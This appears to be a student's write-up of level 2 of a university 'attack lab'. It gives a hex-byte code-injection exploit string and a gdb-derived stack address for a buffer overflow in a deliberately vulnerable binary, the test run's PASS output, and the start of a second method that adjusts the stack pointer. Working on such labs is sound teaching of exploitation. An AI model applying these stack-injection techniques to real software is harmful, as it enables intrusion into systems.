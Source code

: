 <br>

Now we can put together our exploit string:

```c
/* mov $0x59b997fa,%rdi */
48 c7 c7 fa 97 b9 59
/* pushq $0x4017ec, address of touch2 */
68 ec 17 40 00
/* ret */
c3
/* 27 bytes of random filler */
01 02 03 04 05 06 07 08 09
01 02 03 04 05 06 07 08 09
01 02 03 04 05 06 07 08 09
/* address of mov, 0x5561dc78, little-endian */
78 DC 61 55 00 00 00 00
```

- *Note that the `mov` instruction is at the top of the 40-byte `getbuf` stack frame. Using `gdb`, we can find the address of this instruction, which is `0x0x5561dc78`.*

Test:

```
$ ./hex2raw < ctarget.l2.exploit.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 01 02 03 04 05 06 07 08 09 01 02 03 04 05 06 07 08 09 01 02 03 04 05 06 07 08 09 78 DC 61 55 00 00 00 00
```

<br>

### What to do: Second Method (causes SegFault but still valid..?)
- Instead of injecting code into the 40-byte stack frame, we could also inject the exploit code below the 40-byte stack frame.
- We could use a `mov` instruction to set `%rdi` to the cookie.
- We could move the stack pointer by altering `%rsp` so that when we return with `ret` we will have the right address.
- *Note that this solution will cause a segmentation fault in the validation part of the program, but will still print "Valid solution for level 2" first.*

Our injected code will be:
```c
    movq    $0x59B997FA, %rdi           # move cookie to %rdi
    addq    $12, %rsp                   # move stack pointer
    ret
```
- *The number 12 will be explained below by the stack structure.*
